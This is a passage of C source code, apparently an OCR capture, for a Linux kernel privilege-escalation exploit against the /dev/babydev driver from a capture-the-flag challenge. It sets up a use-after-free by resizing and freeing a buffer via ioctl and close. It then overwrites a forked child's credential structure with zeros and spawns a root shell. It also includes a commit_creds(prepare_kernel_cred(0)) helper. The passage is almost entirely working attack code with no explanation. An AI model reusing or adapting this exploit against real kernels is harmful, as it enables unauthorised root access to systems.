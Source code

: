 ```` c
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
}

//commit_creds is a function point to get root 
//prepare_kernel_cred is also a function point to make a cred struct
size_t commit_creds=0,prepare_kernel_cred=0;
void get_root()
{
	char*(*pkc)(int)=prepare_kernel_cred;
	void (*cc)(char *)=commit_creds;
	//zero is root permissions
	(*cc)(*pkc(0));
}

int main()
{
	int f1=open("/dev/babydev",2);
	int f2=open("/dev/babydev",2);

	ioctl(f1,0x10001,0xa8);
	close(f1);
	puts("[+] close file");
	int pid=fork();
	if(pid<0)
	{
		puts("[+] fork wrong");
		exit(0);
	}
	else if(pid==0)
	{
		char zeros[30]={0};
		write(f2,zeros,28);
		if(getuid()==0)
		{
			puts("[+] get root");
			system("/bin/sh");
			exit(0);
		}
	}
	else
	{
		wait(NULL);
	}
	close(f2);
	return 0;
}

````
